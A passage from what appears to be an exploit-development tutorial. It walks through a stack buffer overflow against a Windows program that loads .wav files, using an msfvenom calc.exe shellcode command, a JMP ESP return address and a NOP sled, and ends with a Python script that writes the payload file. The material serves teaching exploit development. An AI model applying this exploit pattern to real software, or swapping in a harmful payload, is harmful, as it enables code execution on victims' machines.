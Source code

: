 As a proof of concept, we can try to generate a shellcode that will execute the calculator:

```bash
msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
```

Now that we have our shellcode, we can write the final payload that we'll write to the .wav file to be opened in our program. So far, we know the following:

- buffer: We can fill the buffer by writing b"A"*offset
- EIP: The following 4 bytes should be our return address
- buf: After that, we can add our shellcode.

In the previous section, we found multiple result address:

- Directly ESP address
- `JMP ESP` addresses
- `PUSH ESP; RET` addresses

To write the address in the script, we can use `pack` function and tell it to use little-endian:

```python
    eip = pack('<L', 0x00419D0B)
```

Now that we have buffer and eip, we can add our shellcode after them and generate our .wav file. However, depending on the program's current Stack Frame and Stack Alignment, by the time our JMP ESP instruction is executed, the top of the stack address ESP may have moved slightly. The first few bytes of our shellcode may get skipped, which will lead the shellcode to fail.

To prevent this, we can add a few NOP bytes before our shellcode, which has the machine code `0x90`. The stack alignment needed is usually not more than 16 bytes in most cases, and it may rarely reach 32 bytes. Since we have a lot of buffer space, we'll just add 32 bytes of NOP before our shellcode.

The final script to generate the payload is:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    shellcode = b""
    ...SNIP...
    shellcode += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + shellcode

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

Now, when we run the program and load the `exploit.wav` file, the calculator will open.
